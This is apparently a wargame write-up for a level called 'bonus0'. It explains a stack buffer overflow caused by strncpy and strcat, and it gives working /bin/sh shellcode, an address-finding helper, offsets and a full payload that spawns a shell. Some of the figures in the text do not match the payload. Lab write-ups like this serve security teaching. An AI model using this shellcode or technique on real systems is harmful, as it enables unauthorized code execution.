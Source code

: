 looking at the code (see source.c) we can see that the program is vulnerable to a buffer overflow attack (like always).
it copy stdin into a buffer of 20 char using strncpy(dest, src, 20), but if src is greater than 20 bytes it will not be \0 terminated,
which mean the next strcat will read beyond the 20 char of the string.

wee need to overflow the main buffer of 54 bytes, which well do with:
input1(20) + input2(20) + reading stack because input2 is not \0 ended (3) + space(1) + input2(20) = 64 bytes
we need to put the address of our shellcode into input2 at the 54th byte, so the return address will be overwritten with the address of the shellcode.
the 54th byte is the 9th byte of input2, so we need to put the shellcode there.

for conveninence we will put the shellcode into a shell variable, and redirect the program to it's address:
`export code=$(python -c "print '\x90'*4+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

getting the address of the shellcode:
`./ressources/varaddr code`
```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  printf("%p\n", getenv(argv[1]));
}
```
`./a.out SHELLCODE` -> `0xbffff916`

input1 = i*20 (20 bytes so it doesn't end with \0)
input2 = i*9 + shellcode address + i*7

full payload:
`python -c "print 'i'*4095 + '\n' + 'i'*9 + '\x16\xf9\xff\xbf' + 'i'*70" > /tmp/a`
`cat /tmp/a - |./bonus0`
writes `iiiiiiiiiiiiiiiiiiiiiiiiiiiii���iiiiiii��� iiiiiiiii���iiiiiii���` as expected and we got a shell.
